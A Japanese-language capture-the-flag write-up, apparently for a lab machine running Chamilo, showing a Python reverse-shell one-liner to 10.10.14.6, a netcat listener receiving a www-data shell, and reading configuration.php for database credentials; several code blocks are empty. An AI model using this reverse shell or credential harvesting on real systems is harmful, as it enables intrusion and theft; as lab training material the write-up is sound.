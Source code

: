 ```bash

```

毎回、一つずつコマンドを変えるのはめんどくさいので、リバースシェルで接続する。
[https://www.revshells.com/]でリバースシェルを作る。
自分の場合は、bashではうまくいかないので、pythonでリバースシェルを建てられた
```bash
CMD = python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.6",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

リバースシェルの確立
```bash
└──╼ [★]$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.6] from (UNKNOWN) [10.129.254.229] 37162
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$ 
```

Apache サーバーの Web 管理者であるwww-dataであることがわかる。cd・home
```bash

```

```bash

```

```bash

```


- **Tactics**:
    - #Tactic_初期アクセス
    - #Tactic_Escution_実行
- **Techniques**:
    - #T1190_公開アプリケーションのエクスプロイト
    - #T1059_コマンドとスクリプトインタープリタ
    - #T1078_有効なアカウント
    - その他のInitial Access/Execution関連技術...



---

# Lateral Movement
www-dataは、Apacheサーバーの管理者として、/var/wwwは自由にいじれる権限がある。
/var/www以下を色々見ていると、configuration.phpがある。
configuration.phpは、データベースの設定を行なっているphpであり、データベースにログインするためのアカウント情報を取得できる。
ここで取得できたアカウント情報でデータベースにアカウントを追加する。
```bash
www-data@permx:/var/www/chamilo/app/config$ head -30 configuration.php
head -30 configuration.php
<?php
// Chamilo version 1.11.24
// File generated by /install/index.php script - Sat, 20 Jan 2024 18:20:32 +0000
/* For licensing terms, see /license.txt */
/**
 * This file contains a list of variables that can be modified by the campus site's server administrator.
 * Pay attention when changing these variables, some changes may cause Chamilo to stop working.
 * If you changed some settings and want to restore them, please have a look at
 * configuration.dist.php. That file is an exact copy of the config file at install time.
 * Besides the $_configuration, a $_settings array also exists, that
 * contains variables that can be changed and will not break the platform.
 * These optional settings are defined in the database, now
```